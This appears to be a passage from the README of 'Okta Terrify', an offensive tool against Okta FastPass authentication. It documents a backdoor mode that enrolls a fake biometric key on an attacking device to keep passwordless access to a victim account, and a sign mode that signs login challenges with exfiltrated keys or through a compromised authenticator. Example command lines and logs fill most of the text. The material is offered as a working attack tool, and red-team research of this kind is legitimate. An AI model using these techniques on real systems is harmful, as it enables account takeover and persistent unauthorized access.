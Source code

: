 ### Backdoor

In `--backdoor` mode, Okta Terrify will launch the tenant Okta URL using the OAuth client id that the official Okta Verify application uses during enrollment.  This will typically trigger the authentication flow and signing mode is active during this phase.  Once an authenticated session is created, a new user verification key is generated on the attacking device and is enrolled as a fake biometric key.  Once the key is enrolled, FastPass will operate in a passwordless state without any dependencies on the original compromised authenticator device.

#### Example

```
OktaTerrify.exe -b -s S-1-5-21-********-1001 -db C:\Users\Tester\AppData\Local\Okta\OktaVerify\OVStore.db -v
2023-11-21 11:47:10.4741|INFO|OktaTerrify|Okta Terrify is starting....
2023-11-21 11:47:10.5057|INFO|OktaTerrify.Oidc.LoopbackHttpListener|HTTP server listening on loopback ports 8769 65112
[=] Sign the device bind JWT on the enrolled Okta Verify device

  OktaInk -o SignDeviceBind -k BOL_************ -d pfd******** -u 00u******** -n bGI******** -t ftt******** -a https://tenant.okta.com -m crp**** -v

[.] Enter DeviceBind JWT:
eyJraW......
2023-11-21 11:47:43.9337|INFO|OktaTerrify|Signed JWT accepted, factor accepted
2023-11-21 11:47:48.5310|INFO|OktaTerrify|Authenticated as user victim@tenant.com, enrolling a fake userVerify TPM key
2023-11-21 11:47:48.5464|INFO|OktaTerrify|Generated new fake hardware biometric key and saved to file BD_******.key
[=] I now need the existing userVerification public key

  OktaInk -o ExportPublic -k BOL_************

[.] Enter userVerification public key:
nOng....
2023-11-21 11:48:05.1047|INFO|OktaTerrify|Passwordless persistence successful, now running in FastPass mode
2023-11-21 11:48:05.1047|INFO|OktaTerrify|Running in backdoor mode, press ESC to exit
```

### Sign

In `--sign` mode, during Okta authentication, challenges are either signed locally through exfiltrated keys or they can be proxied to OktaInk running on a compromised authenticator when hardware backed keys are present. 

#### Example
```
OktaTerrify.exe --sign -s S-1-5-21-******-1001 -db C:\Users\Tester\AppData\Local\Okta\OktaVerify\OVStore.db
2023-11-21 16:54:33.9386|INFO|OktaTerrify|Okta Terrify is starting....
2023-11-21 16:54:34.0014|INFO|OktaTerrify.Oidc.LoopbackHttpListener|HTTP server listening on loopback ports 8769 65112
2023-11-21 16:54:34.0014|INFO|OktaTerrify|Running in signing mode, press ESC to exit
2023-11-21 16:54:54.7414|WARN|OktaTerrify|!!WARNING!! - Incoming sign request for the user verification key, this will cause a popup on the victim machine to enter user verification PIN/Password because no local key exists. To force generation of user verification key signing, add the -v argument.  Falling back to proof of possession key
[=] Sign the device bind JWT on the enrolled Okta Verify device

  OktaInk -o SignDeviceBind -k SFT_********** -d pfd***** -u 00u****** -n C7bG****** -t ft4Kw******* -a https://tenant.okta.com -m crp*******

[.] Enter DeviceBind JWT:
eyJra.....
```